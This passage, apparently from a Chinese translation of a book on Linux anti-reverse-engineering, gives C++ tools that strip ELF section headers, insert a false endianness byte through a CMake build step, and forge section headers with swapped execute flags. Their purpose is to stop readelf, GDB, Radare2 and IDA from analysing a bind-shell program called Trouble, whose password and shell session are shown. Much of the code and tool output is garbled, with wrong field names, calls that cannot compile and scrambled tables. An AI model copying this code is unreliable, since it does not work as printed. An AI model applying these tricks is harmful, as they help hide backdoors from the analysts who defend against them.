然而，并没有工具可以直接删除节段头表，所以我现在编写了代码。在第三章的代码中，你会发现一个名为 `stripBinary` 的项目。它由两个文件组成：`CMakeLists.txt` 和 `stripBinary.cpp`。注意这是我用 C++ 编写的第一个项目，你可以根据需要用 C、Python 或你喜欢的任何语言重写。

`chap_3_format_hacks/stripBinary/CMakeLists.txt`

```
project(stripBinary CXX)
cmake_minimum_required(VERSION 3.0)
set(CMAKE_CXX_FLAGS "-Wall -Wextra -g")
add_executable(${PROJECT_NAME} src/stripBinary.cpp)
```

`chap_3_format_hacks/stripBinary/stripBinary.cpp`

```cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <iomanip>
#include <cstring>
#include <elf.h>
```

```cpp
/* 程序接收一个二进制文件并将节段表置零。
它还将节段名称置零。最后，它修复 ELF 头部并覆盖旧的二进制文件。
*/
```

```cpp
/**
* 查找节段表的偏移量
* @param[in] p_data ELF二进制文件
* @param[in,out] p_sec_count 节段表中的节数量
* @param[in,out] p_str_index 字符串表的索引
* @return 指向节段表起始位置的指针
*/
```

```cpp
Elf64_Shdr* find_sections(std::string& p_data, int& p_sec_count, int& p_str_index)
{
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' || p_data[3] != 'F')
    {
        return NULL;
    }

    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);

    Elf64_off section_offset = ehdr->eshoff;
    ehdr->eshoff = 0;

    p_sec_count = ehdr->e_num;
    ehdr->e_num = 0;

    p_str_index = ehdr->eshndx;
    ehdr->eshndx = 0;

    return reinterpret_cast<Elf64_Shdr*>(&p_data[section_offset]);
}
```

```cpp
/**
 * 将所有节段头置零并清空字符串
 * @param[in] p_data ELF二进制文件
 * @param[in] p_sections 指向节段表第一个条目的指针
 * @param[in] p_sec_count 节段表中的条目数量
 * @param[in] p_str_index 我们要删除的表索引
 * @return 如果成功覆盖则返回 true
 */
```


```cpp
bool remove_headers(std::string& p_data, Elf64_Shdr* p_sections, int p_sec_count, int p_str_index)
{
  // 遍历所有的头部。确保没有任何在使用计划删除的字符串表。
  Elf64_Shdr* iter = p_sections;
  for (int i = 0; i < p_sec_count; ++i, ++iter)
  {
    if (iter->sh_link == static_cast<Elf64_Word>(p_str_index))
    {
      std::cerr << " A section is still linked to the str index: " << iter->sh_link << std::endl;
      return false;
    }
    // 覆盖字符串
    memset(&p_data[iter->sh_offset], 0, iter->sh_size);
  }
  // 覆盖表
  memset(p_sections, 0, p_sec_count * sizeof(Elf64_Shdr));
  return true;
}
```

```cpp
int main(int argc, char** argv)
{
  if (argc != 2)
  {
    std::cerr << "Usage: ./stripBinary <file>" << std::endl;
    return 1;
  }

  std::ifstream inputFile(argv[1], std::ifstream::binary);
  if (!inputFile.is_open())
  {
    std::cerr << "Failed to open file: " << argv[1] << std::endl;
    return 1;
  }

  std::string input((std::istreambuf_iterator<char>(inputFile)), std::istreambuf_iterator<char>());
  inputFile.close();

  int section_count = 0;
  int str_index = 0;
  Elf64_Shdr* sections = find_sections(input, section_count, str_index);
  if (sections == NULL)
  {
    std::cerr << "Failed to find section table" << std::endl;
    return 1;
  }

  if (!remove_headers(input, sections, section_count, str_index))
  {
    return 1;
  }

  std::ofstream outputFile(argv[1], std::ofstream::binary);
  if (!outputFile.is_open())
  {
    std::cerr << "Failed to open file: " << argv[1] << std::endl;
    return 1;
  }

  outputFile.write(input.data(), input.length());
  outputFile.close();
  return 0;
}
```

`stripBinary.cpp` 被分为三个部分：

1. 查找节段表的偏移量
2. 覆盖节段条目和节段名称
3. 将更新后的二进制写入文件

编译 `stripBinary` 像之前一样使用 CMake。

编译 `stripBinary`

```
albino-lobster@ubuntu:~/antire_book$ cd chap_3_format_hacks/stripBinary/
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/stripBinary$ mkdir build
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/stripBinary$ cd build
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/stripBinary/build$ cmake ..
-- The CXX compiler identification is GNU 5.4.0
-- Check for working CXX compiler: /usr/bin/c++
-- Check for working CXX compiler: /usr/bin/c++ -- works
-- Detecting CXX compiler ABI info - done
-- Detecting CXX compile features - done
-- Detecting CXX compiler compile features - done
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albino-lobster/antire_book/chap_3_format_hacks/stripBinary/build
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/stripBinary/build$ make
Scanning dependencies of target stripBinary
[50%] Building CXX object CMakeFiles/stripBinary.dir/src/stripBinary.cpp.o
[100%] Linking CXX executable stripBinary
[100%] Built stripBinary
```

使用 `stripBinary` 也很简单。

## 第3 章：文件格式技巧

### 在 Trouble 上使用 stripBinary

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/stripBinary/build$ ./stripBinary ~/antire_book/chap_3_format_hacks/trouble/build/trouble
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/stripBinary/build$ readelf -a ~/antire_book/chap_3_format_hacks/trouble/build/trouble
```

ELF Header:

```
Magic: 7f 45 4c 46 02
Class: ELF64
Data: 2's complement, little endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: EXEC (Executable file)
Machine: Advanced Micro Devices x86-64
Version: 0x1
Entry point address: 0x4002f2
Start of program headers: 64 (bytes into file)
Start of section headers: 0 (bytes into file)
Flags: 0x0
Size of this header: 64 (bytes)
Size of program headers: 56 (bytes)
Number of program headers: 4
Size of section headers: 64 (bytes)
Number of section headers: 0
```

该文件中没有节（sections）。

该文件中没有分组的节。

| Type | Offset | VirtAddr | PhysAddr | FileSize | MemSize | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| LOAD | 0x0000000000000000 | 0x0000000000004000 | 0x0000000000000000 | 0x00000000000001c1 | 0x00000000000001c1 | RE | 0x000000 |
| LOAD | 0x00000000000001fe8 | 0x00000000000001fe8 | 0x00000000000001fe8 | 0x0000000000000178 | 0x00000000000004b8 | RW | 0x200000 |
| GNU_STACK | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | RW | 10 |
| GNU_RELRO | 0x00000000000001fe8 | 0x00000000000001fe8 | 0x00000000000001fe8 | 0x0000000000000018 | 0x0000000000000018 | R | 1 |

该文件中没有重定位（relocations）。

目前不支持对 Advanced Micro Devices X86-64 类型的展开节（unwind sections）进行解码。

没有用于显示符号的动态符号信息。

该文件中未找到版本信息。

就像移除 `.comment` 节一样，如果能让 `stripBinary` 成为 Trouble 构建过程的一部分就太棒了。但是，由于 `stripBinary` 本身是一个独立的 CMake 项目，你需要重构 Trouble 的 CMake 项目。我们将在下一章开始时这样做。现在，我只是简单地提醒你何时将 `stripBinary` 应用于 Trouble。

### 小端序还是大端序？

在上一节中，你学习了节头表表是不必要的。这可能会让你好奇：“在执行 ELF 二进制文件时，还有什么是没用的？”事实上，你并不是第一个走在这条路上的行者。事实上，Brian Rait 编写了一篇名为《创建 Linux 微型 ELF 可执行文件的快速教程》的有趣文章，在文中他探索了如何创建最小的 ELF 可执行文件。他的探索部分涉及 ELF 头中用于存储程序头和某些可执行代码的未使用空间。这非常聪明，值得一读。

Reiter 观察到的字段之一是 ELF 头中的第六个字节。该字节位于 `e_ident` 数组中，任何 ELF 二进制文件的前 16 个字节包含它。第六个字节被称为 `EI_DATA`，它指示二进制文件的字节序。man 页是这样描述的：

> 33http://www.muppetlabs.com/~breadbox/software/tiny/teensy.html

## man elf

第六个字节特定数据指定了文件中特定处理器数据的数据编码方式。目前支持这些编码：

| EI_DATA | 描述 |
| :--- | :--- |
| ELFDATONE | 未知的数据格式。 |
| ELFDATA2LSB | 补码，小端序。 |
| ELFDATA2MSB | 补码，大端序。 |

如果你想一下，执行一个二进制文件并不需要这个字段是合理的。系统可以是小端序或大端序（ARM 是双端的）。因此，加载器（loader）不需要检查这个字节，因为它可以执行。

然而，像 `readelf`、`Radare2` 和 `IDA` 等工具期望读取许多架构的文件。这个字节对于它们确定二进制文件的字节序至关重要。如果插入一个谎言会发生什么？看 `readelf` 如何描述 Trouble 中的 `EI_DATA`（它出现在 "Magic" 和 "Data" 行中）：

### 查看 Trouble 中的 EI_DATA

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ readelf -a ./trouble
ELF Header:
Magic: 7f 45 4c 46 02
Class: ELF64
Data: 2's complement, little endian
```

从 `readelf` 输出可以看到，Trouble 的 `EI_DATA` 字节（magic 数组中的第 6 个字节）设置为 1，这意味着 `ELFDATA2LSB` “补码，小端序”。让我们用 `dd` 将其改为 2 “补码，大端序”。

### 使用 dd 修改 EI_DATA 字节

```bash
printf "\x02" | dd of=trouble bs=1 seek=5
1 records in
1 records out
1 byte copied
```

注意 `seek` 从 0 开始，现在检查 `readelf` 对 Trouble 的描述。

### 修改 EI_DATA 后的 readelf

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ readelf -a ./trouble
ELF Header:
Magic: 7f 45 4c 46 02 02 01 00 00 00
Class: ELF64
Data: 2's complement, big endian
Version: 1 (current)
OS/ABI: UNIX - System V
ABI Version: 0
Type: unknown
Machine: unknown
Version: 0x1
Entry point address: 0xf2024000000000
Start of program headers: 461168601273804 (bytes into file)
Start of section headers: 517885809643574 (bytes into file)
Flags: 0x0
Size of this header: 64 (bytes)
Size of program headers: 14336 (bytes)
Number of program headers: 1024
Size of section headers: 16384 (bytes)
Number of section headers: 3072
Section header string table index: 2816

readelf: Warning: The e_hentsize field in the ELF header is larger than the size of an ELF header
readelf: Error: Reading 0x3000000 bytes extends end of file for section headers
readelf: Error: Section headers are not available!
readelf: Warning: The e_psize field in the ELF header is larger than the size of an ELF program header
readelf: Error: Reading 0xe0000 bytes extends end of file for program headers
readelf: Warning: The e_phentsize field in the ELF header is larger than the size of an ELF header
readelf: Error: Reading 0xe000 bytes extends past end of file for program headers
```

哎呀！这完全乱了，不是吗？看来 `readelf` 相信了 Trouble 中的字节序谎言。

但我怀疑 GDB 不会被这个欺骗，对吧？

### 用字节序谎言弄崩 GDB


```bash
albino-lobster@ubuntu:~~antire_book/chap_3_format_hacks/trouble/build$ gdb ./trouble
GNU gdb (Ubuntu 7.11.1-16.04) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3; GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
这是免费软件：你可以自由地更改和分发它。
在法律允许的范围内不提供任何担保。详情请查阅 "show copying" 和 "show warranty"。
此 GDB 配置为 "x86_64-linux-gnu"。
请输入 "show configuration" 查看配置详情。
有关错误报告说明，请参：
http://www.gnu.org/software/gdb/bugs/
可以在在线查找 GDB 手册和其他文档资源：
http://www.gnu.org/software/gdb/documentation/
需帮助请输入 "help"
输入 "apropos word" 搜索与 "word" 相关的命令
"/home/albino-lobster/antire_book/chap_3_format_hacks/trouble/build/.trouble": not a x format: File format not recognized
```

哎。`GDB` 用“无法识别文件格式”拒绝了该可执行文件。我有点担心 Trouble 无法执行。然而，一个快速测试证明我可以执行 Trouble，并且客户端仍然连接连接。

### Trouble 仍然可用

```bash
albino-lobster@ubuntu:~$ nc 127.0.0.1 1270
irsrle@v1Ac70x708rk
pwd
/home/albino-lobster/antire_book/chap_3_format_hacks/trouble
```

看来翻转一个位就让 `readelf` 和 `GDB` 无法工作了。让我们看看我们喜爱的反汇器如何应对这种攻击。

### 用字节序谎言弄崩 Radare2

```bash
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ radare2 ./trouble
Warning: Cannot initialize program headers
Warning: Cannot initialize section headers
Warning: Cannot initialize strings table
Warning: Cannot initialize dynamic strings
Warning: Cannot initialize dynamic section
Warning: read (init_offset)
Warning: read (get_fini)
-- radare2 for Fide05, now with extra potato
[0xf20240000000000]> aaaa
[x] 分析 0xf20240000000000 处以 .entry 开头的标志 (aa)
[Warning]: 在非执行区域中搜索交叉引用 (aar)
[x] 为 fcn.* 和 sym.func.* 函数构造函数名称 (aan)
[0xf20240000000000]> fcn
[0xf20240000000000]> pdf
p: Cannot find function at 0xf20240000000000
[0xf20240000000000]>
```

好了，Radare2 也坏了。我也尝试了 Hopper，但它什么都不显示……从反逆向工程的角度来看，这很棒，因为它给了用户一个关于哪里错误的提示。

IDA 的响应很有意思。它首先显示了这条消息：



“IDA 关于字节序（endianness）谎言的错误信息”

这个拼写错误让我内心的小三年级感到很快，但我确定他们指的是“第六字节（byte six）”。然而，在点击“是”继续后，IDA 成功反汇编了整个文件。看来 IDA 必须有确定真实字节序的辅助方法。

尽管 IDA 给我们泼了冷水，但这似乎是一个实用的小混淆手段，而且很容易添加到我们的构建过程中。只需在 Trouble 的 `CMakeLists.txt` 末尾添加以下行即可。

## 用于插入字节序谎言的 CMake 命令

```
add_custom_command(TARGET ${PROJECT_NAME}
                     POST_BUILD
                     COMMAND echo 'Ag==' | base64 -d | dd conv=notrunc of=${CMAKE_CURVE_BINARY_DIR}/${PROJECT_NAME} bs=1 seek=5)
```

## echo ‘Ag==' | base64-d

你可能在想：“这个插入字节序谎言的 CMake 命令到底是怎么回事？”有趣的是，CMake 不喜欢在 `add_custom_command()` 函数中使用反斜杠，而我没有找到任何解决方法。我尝试过直接选择 `\x02` 的 UTF-8 表示法，但这破坏了本书的版本跟踪系统。我最终决定对 `echo -ne '\x02’` 进行 base64 解码。

当添加了新的 EI_DATA 混淆编译 Trouble 时，它看起来应该是这样的：

## 第 3 章：文件格式

## 使用 EI_DATA 混淆编译 Trouble

```
albino-lobster@ubuntu:~/antire-book/chap_3_format_hacks/trouble/build$ make clean; make -j
-- Configuring done
-- Generating done
-- Build files have been written to: /home/albino-lobster/antire_book/chap_3_format_hacks/trouble/build
Scanning dependencies of target trouble
[50%] Building C object CMakeFiles/trouble.dir/src/trouble.c
[100%] Linking C executable trouble
The bind shell password is: lu0NwoGb2CtAeqwiHe8GNJcXRfxuLV
1+0 records in
1+0 records out
1 byte copied, 4.1259e-05 s, 24.2 kB/s
[100%] Built target trouble
```

## 节是谎言

在之前的章节中，你学习了运行可执行文件不需要节头（headers），你可以在 ELF 头中插入虚假信息以阻碍分析。某些反汇器依赖节表来提供地址映射，并发现如 `.init3`⁴ 和 `.fini` 这样的特殊节。通过干扰节表是否可以欺骗反汇器呢？

## 翻转执行位

编译三个版本的 Trouble bind shell，并使用 `stripBinary` 工具移除节表。在 `readelf` 中，Trouble 现在应该看起来像这样：

> ⁴https://gcc.gnu.org/onlinedocs/gccint/Initialization.html

## 第 3 章：文件格式破解

## stripBinary 后的 Trouble 视图

```
albino-lobster@ubuntu:~/antire_book/chap_3_format_hacks/trouble/build$ readelf -a /t/ouble
```

ELF Header:

Magic: 7f 45 4c 43 46 02 01 00 00 00 00 00 00 00 00

Class: ELF64

Data: 2's, little endian

Version: 1 (current)

OS/ABI: UNIX System V

ABI Version: 0

Type: EXEC (Executable file)

Machine: Advanced Micro Devices X86-64

Version: 0x1

Entry point address: 0x4002f

Start of program headers: 64 (bytes into file)

Start of section headers: 0 (bytes into file)

Flags: 0x0

Size of this header: 64 (bytes)

Size of program headers: 56 (bytes)

Number of program headers: 4

Size of section headers: 64 (bytes)

Number of section headers: 0

Section header string table index: 0

文件中没有节（sections）。

文件中没有可以分组的节。

| Type | Offset | VirtAddr | PhysAddr | Flags | Align |

| :--- | :--- | :--- | :--- | :--- | :--- |

| LOAD | FileSize | MemSize | | | |

| 0x0000000000000000 | 0x0000000000004000 | 0x0000000000004000 | E | 200000 | |

| 0x000000000000000 | 0x00000000000001cc | 0x00000000000001cc | R | | |

| LOAD | 0x0000000000001fe | 0x00000000000011 | | | |

| 0x0000000000000178 | 0x00000000000004b8 | 0x00000000000004b8 | RW | 200000 | |

| GNU_STACK | 0x0000000000000000 | 0x0000000000000000 | | | |

| 0x0000000000000000 | 0x0000000000000000 | 0x0000000000000000 | RW | 10 | |

| GNU_RELO | 0x00000000000001fe | 0x00000000000001fe | | | |

| 0x0000000000000018 | 0x0000000000000018 | 0x0000000000000018 | R | 1 | |

文件中没有节。

第 3 章：文件格式破解

文件中没有动态节（dynamic section）。文件中没有重定位（relocations）。目前不支持 Advanced Micro Devices X86-64 类型的展开节（unwind sections）解码。符号不可用。文件中没有版本信息。有四个程序头描述了 Trouble 的地址空间。程序头的一个重要部分是 `flags` 字段。该字段描述段是可执行、可写还是可读的。四个程序头中有一个只读（r），两个可读可写（rw），一个可读可执行（re）。反汇器会使用 `flags` 字段吗？让我们实验一下。创建一个伪造节表来反转程序头的 `flag` 字段。这将让反汇器认为第一个 LOAD 段描述的空间不可执行，而第二个段是可执行的。节表将包含四个项：

- 1. `SHT_NULL` 节。通常位于节表的开头，如果漏掉会看起来很奇怪。
- 2. `SHT_PROBITS` 节。在该节中，我们将地址空间设置为第一个 LOAD 段。但不是像第一个 LOAD 那样的 re，而是像第二个 LOAD 那样的 rw。该节的名字将是“data”，这样它看起来就像普通的数据节。
- 3. 另一个 `SHT_PROBITS` 节。在该节中，我们将地址空间设置为第二个 LOAD 段。这次将段标记为“re”而不是“rw”。该节的名字应该是“text”，因为它看起来像是一个代码段。
- 4. `SHT_STRTAB` 节。该节将指向文件末尾，你将在那里追加一个新的节列表。我在第三章中包含了此操作的代码。项目名为“fakeHeadersBit”。该项目再次包含两个文件：`CMakeLists.txt` 和 `fakeHeadersBit.cpp`。

第 3 章：文件格式破解

### chap_3_format_hacks/fakeHeadersBit/CMakeLists.txt

```
project(fakeHeadersBit CXX)
cmake_minimum_required(VERSION 3.0)

set(CMAKE_FLAGS "-Wall -Wextra -Wshadow")
add_executable(${PROJECT_NAME} src/fakeHeadersBit.cpp)
```

### fakeHeadersBit.cpp

```cpp
#include <cstdlib>
#include <iostream>
#include <fstream>
#include <iomanip>
#include <cstring>
#include <elf.h>
```

```cpp
/**
 * 此工具的目标是迷惑反汇器，使其认为代码的可执行部分是数据，而数据部分是可执行的。
 *
 * 此工具将向没有节表的二进制文件添加节表。节表由4个头组成：
 * - null header
 * - .data: 该节我们取消了 X 并设置了 W
 * - .text: 该节应该覆盖 .data，但我们设置了 X 并取消了 W
 * - .strhtab: 字符串表
 *
 * 此代码假设二进制文件有两个 LOAD 段。一个段设置了 PF_X，另一个设置了 PF_W。
 */
```

```cpp
/**
 * 编辑 ELF 头以指示有 6 个节头，且字符串表是最后一个。
 * @param[in,out] p_data ELF 二进制文件
 * @return 如果可以添加节表则返回 true，否则返回 false
 */
```

## 第 3 章：文件格式破解

```cpp
bool edit_elf_header(std::string& p_data)
{
    if (p_data[0] != 0x7f || p_data[1] != 'E' || p_data[2] != 'L' ||
        p_data[3] != 'F')
    {
        return false;
    }
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    if (ehdr->e_shoff != 0)
    {
        std::cerr << "The binary already has a section table." << std::endl;
        return false;
    }
    if (ehdr->e_shentsize != sizeof(Elf64_Shdr))
    {
        std::cerr << "Unexpected section header size" << std::endl;
        return false;
    }
    ehdr->e_shoff = p_data.size();
    ehdr->e_shnum = 4;
    ehdr->e_shstrnd = 3;
    return true;
}
```

```cpp
bool add_data_section(std::string& p_data, std::string& p_strings)
{
    Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
    Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[0] + ehdr->e_phoff);
    for (int i = 0; i < ehdr->e_phnum; i++, phdr++)
    {
```

## 第 3 章：文件格式技巧

```cpp
if (phdr->p_type == PT_LOAD)
  if ((phdr->p_flags & PF_X) == PF_X)
{
```

```cpp
Elf64_Shdr data_header = {};
data_header.sh_name = p_strings.size();
data_header.sh_type = SHT_PROBITS;
data_header.sh_flags = SHF_ALLOC | SHF_WRITE;
data_header.sh_addr = phdr->p_vaddr;
data_header.sh_offset = phdr->p_offset;
data_header.sh_size = phdr->p_filesz;
data_header.sh_link = 0;
data_header.sh_info = 0;
data_header.sh_addralign = 4;
data_header.sh_entsize = 0;
p_strings.append(".data");
p_strings.push_back("\x00");
```


`p_data.append(reinterpret_cast<char*>(&data_header), sizeof(data_header));`

```cpp
return true;
}
}
return false;
```

```cpp
/*
* 此函数查找 PF_W 段并创建一个名为 .text 的节头部
* 该节头设置了 X 位。
*
 * @param[in,out] p_data ELF 二进制文件
* @param[in,out] p_strings 节表字符串名称
* @return 如果没有遇到错误则返回 true
*/
```

```cpp
bool add_text_section(std::string& p_data, std::string& p_strings)
{
  Elf64_Ehdr* ehdr = reinterpret_cast<Elf64_Ehdr*>(&p_data[0]);
  Elf64_Phdr* phdr = reinterpret_cast<Elf64_Phdr*>(&p_data[0] + ehdr->e_phoff);
  for (int i = 0; i < ehdr->e_phnum; i++, phdr++)
{
```

```cpp
if (phdr->p_type == PT_LOAD)
{
    if ((phdr->p_flags & PF_X) == 0)
    {
        Elf64_Shdr text_header = {};
        text_header.sh_name = p_strings.size();
        text_header.sh_type = SHT_PROGBITS;
        text_header.sh_flags = SHF_ALLOC | SHF_EXECINSTR;
        text_header.sh_addr = phdr->p_vaddr;
        text_header.sh_offset = phdr->p_offset;
        text_header.sh_size = phdr->p_filesz;
        text_header.sh_link = 0;
        text_header.sh_info = 0;
        text_header.sh_adalign = 4;
        text_header.sh_entsize.append(".text");
        p_strings.push_back("\x00");
        p_data.append(reinterpret_cast<char*>(&text_header), sizeof(text_header));
        return true;
    }
}
return false;
}
bool append_sections(std::string& p_data)
{
// 此处包含节名称字符串
std::string strings;
p_strings.push_back("\x00");
// 第一节是空的
Elf64_Shdr null_header = {};
p_data.append(reinterpret_cast<char*>(&null_header), sizeof(null_header));
if (!add_data_section(p_data, strings))
{
    std::cerr << "未找到可执行的 LOAD 段" << std::endl;
    return false;
}
if (!add_text_section(p_data, strings))
{
  std::cerr << "未找到可写入的 LOAD 段" << std::endl;
  return false;
}
```

```cpp
// .shstrab
Elf64_Shdr strtab = {};
strtab.sh_name = strings.size();
strtab.sh_type = SHT_STRTAB;
strtab.sh_flags = 0;
strtab.sh_addr = 0;
strtab.sh_offset = p_data.size() + sizeof(Elf64_Shdr);
strtab.sh_size = 0;
strtab.sh_link = 0;
strtab.sh_info = 0;
strtab.sh_addalign = 4;
strtab.sh_ensize = 0;
strings.append(".shstrab");
strings.push_back('\x00');
strtab.sh_size = strings.size();
p_data.append(reinterpret_cast<char*>(&strtab), sizeof(strtab));
p_data.append(strings);
  return true;
}
int main(int p_argc, char** p_argv)
{
  if (p_argc != 2) {
    std::cerr << "用法: ./fakeHeadersXBit <文件路径>" << std::endl;
    return EXIT_FAILURE;
  }
  std::ifstream inputFile(p_argv[1], std::ifstream::in | std::ifstream::binary);
  if (!inputFile.is_open() || !inputFile.good()) {
    std::cerr << "无法打开文件: " << p_argv[1] << std::endl;
    return EXIT_FAILURE;
  }
  std::string input((std::istreambuf_iterator<char>(inputFile)), std::istreambuf_iterator<char>());
  inputFile.close();
  if (!edit_elf_header(input)) {
    return EXIT_FAILURE;
  }
  if (!append_sections(input)) {
    return EXIT_FAILURE;
  }
  std::ofstream outputFile(p_argv[1], std::ofstream::out | std::ofstream::binary);
  if (!outputFile.open()) {
    std::cerr << "无法打开文件: " << p_argv[1] << std::endl;
    return EXIT_FAILURE;
  }
  outputFile.write(input.data(), input.length());
  outputFile.close();
  return EXIT_SUCCESS;
}
```

像常一样，使用 CMake 编译 `fakeHeadersBit`。

```bash
@ubuntu:~/chap_3_hacks/fakeHeadersBit$ mkdir build
@ubuntu:~/chap_3_hacks/fakeHeadersBit$ cd build
@ubuntu:~/chap_3_hacks/fakeHeadersBit$ cmake ..
-- 编译器识别为 GNU 5.4.0
-- 正在检查编译器: /usr/bin/c++
-- 正在检查编译器: /usr/bin/c++
-- 正在检测 ABI 信息
-- 检测 ABI 信息 - 完成
-- 正在检测功能
-- 检测功能 - 完成
-- 配置完成
-- 生成完成
-- 构建文件已写入: /home/alice/chap_3_hacks/fakeHeadersBit/build
@ubuntu:~/chap_3_hacks/fakeHeadersBit$ make
正在扫描 fakeHeadersBit 的依赖关系
[50%] 正在编译 fakeHeadersBit.dir/fakeHeadersBit.cpp
[100%] 正在链接可执行文件 fakeHeadersBit
[100%] 构建目标 fakeHeadersBit
```

之前你使用 `strip` 工具删除了节头部。现在你可以添加节头部。

输出 Trouble 发生了变化。

```bash
@ubuntu:~/chap_3_hacks/fakeHeadersBit/build$ readelf -a ./trouble
ELF Header:
Magic:             7f 45 4c 46 02 01 00 00 00 00 00 00
Class:              ELF64
Data:               补码，小端序
Version:            1 (当前)
OS/ABI:             UNIX System V
ABI Version:        0
Type:               EXEC (可执行文件)
Machine:            Advanced Devices X86-64
Version:            0x4002f2
Entry point address: 
Start of program headers: 64 (字节)
Start of section headers: 9560 (字节)
Flags:              0x0
Size of this header: 64 (字节)
Size of program headers: 56 (字节)
Number of program headers: 4
Size of section headers: 64 (字节)
Section header string table: 3
## 节头部:
| 序号 | 名称 | 类型 | 地址 | 偏移 | 大小 | 标志 | 链接 | 对齐 |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| [ 0 ] | | NULL | 0000000000000000 | 0000000000000000 | 00000000 | 0 | 0 | 0 |
| [ 1 ] | .data | PROGBITS | 0000000000004000 | 0000000000000000 | 00000000 | WA | 0 | 0 |
| [ 2 ] | .text | | | 0000000000001fe8 | 0000000000000178 | 000001fe8 | AX | 0 | 4 |
| [ 3 ] | .shstrab | STRTAB | 0000000000000000 | 0000000000000000 | 00002658 | 0 | 0 | 4 |
标志含义:
W (写), A (分配), X (执行), M (合并), S (字符串),
l (信息), L (链接), G (组), T (TLS), x (未知)
 (需要额外的操作系统) p (处理器特定)
此文件中没有节组。
## 程序头部:
| 类型 | 偏移 | 虚拟地址 | 物理地址 | 对齐 | 文件大小 | 标志 | RW |
| --- | --- | --- | --- | --- | --- | --- | --- |
| LOAD | 000000000000001c | 0000000000004000 | 0000000000000000 | 000000000000001c | E | | |
| LOAD | 00000000000001fe8 | 0000000000000178 | 00000000000001fe8 | 0000000000000000 | RW | | |
| GNU_STACK | 0000000000000000 | 0000000000000000 | 0000000000000000 | 00000000000000b4 | RW | | |
| GNU_RELRO | 0000000000000000 | 0000000000000000 | 0000000000000000 | 0000000000000000 | RW | 10 | | |
| | 00000000000001fe8 | 00000000000001fe8 | 00000000000001fe8 | R | 1 | | |
## 节到段映射:
00  .data
01  .text
02
03
## 第 3 章：文件格式黑客
此文件中没有动态段。
此文件中没有重定位。
目前不支持对类型为 Advanced Micro Devices X86-64 的展开段（unwind sections）进行解码。
此文件中未找到版本信息。
```

`readelf` 显示了 `fakeHeadersXBit` 添加的四个节表头。此外，你可以看到 `.data` 和 `.text` 段与程序头中 `LOAD` 段所覆盖的相同地址空间重叠了。然而，请注意，程序头和节表头之间的读/写/执行位是不匹配的。

现在问题是：“这个反汇编器是如何工作的？”让我们从 IDA 开始分析。

在应用伪造的表节（fake table section）之前，IDA 在 Trouble 中发现了 54 个函数，导航栏看起来相当完整。


> “没有节表的 Trouble 导航栏”

然而，当 IDA 应用了 `fakeHeadersXBit` 分析 Trouble 时，它只找到了 22 个函数，且导航栏显示出大量的分析缺失。


> “带有伪造节表的 Trouble 导航栏”

为什么 IDA 失败了？考虑反汇编中的入口点。

### Trouble 的入口点

```
LOAD:0000000004002F2      public start
LOAD:0000000004002F2 start  proc near
LOAD:0000000004002F2      xor      rbp, rbp
LOAD:0000000004002F5      mov      rsi
LOAD:0000000004002F8      pop
LOAD:0000000004002F9      mov      rdx, rsp
LOAD:0000000004002FC      and      rsp, 0xFFFFFFFFFF
LOAD:000000000400300      mov      offset, _term_proc
LOAD:000000000400307      mov      rcx, offset _init_proc
LOAD:00000000040030E      mov      sub_0400130
LOAD:000000000400315      call     sub_040566
```

在 `0x40030e` 处，你应该注意到 `0x400130` 被移动到了 `rdi`。这个地址是 Trouble `main()` 函数的起始。通常情况下，IDA 会这样反汇编该 `main()`：

### Trouble main 函数的反汇编开头

```
LOAD:000000000400130 sub_400130  proc near              ; DATA XREF: start+1C
LOAD:000000000400130
LOAD:000000000400130 var_68      = qword ptr -68h
LOAD:000000000400130 var_58      = qword ptr -58h
LOAD:000000000400130 var_50      = qword ptr -50h
LOAD:000000000400130 var_48      = byte ptr -48h
LOAD:000000000400130 var_20      = qword ptr -20h
LOAD:000000000400130
LOAD:000000000400130      push     rbp
LOAD:000000000400130      push     rbx
LOAD:000000000400132      mov      edx, 6
LOAD:000000000400137      mov      esi, 1
```

当添加 `fakeHeadersXBit` 节表后，`main()` 的反汇编永远不会进行：

### Trouble main 函数未反汇编的开头

```
.data:000000000400130 unk_400130 db 55h ; U ; Data XREF:start+1C
.data:000000000400131 db 53h ; S
.data:000000000400132 db 0BAh ; |
.data:000000000400133 db 6
.data:000000000400134 db 0
.data:000000000400135 db 0
.data:000000000400136 db 0
.data:000000000400137 db 0BE ; +
```


为什么会发生这种情况？记住，`fakeHeadersXBit` 节表头中 `main()` 所在的区域不是可执行的。因此，`IDA` 决定不将其视为代码。这迫使逆向工程师手动反汇编这些类型（或使用脚本）。很酷！所有的反汇编器处理方式都不同，例如，`Hopper` 处理伪造节的效果更差。`Hopper` 只能标记其中两个。另一方面，`Radare2` 似乎不受节表的影响，因为它将节和程序段都视为“节”，且程序段具有优先级。正如我们在之前的节看到的，伪造头部会导致反汇编器无法正常工作。还有更多吗？我想在 ELF 文件中经常有两个特殊的节：`.init` 和 `.fini`。如果在节表中头包含了 `.init` 和 `.fini` 节，你需要更新两个函数：`edit_elf_header()` 和 `add_data_section()`。

### 更新后的 `edit_elf_header()`

```cpp
bool edit_elf_header(std::string& p_data)
{
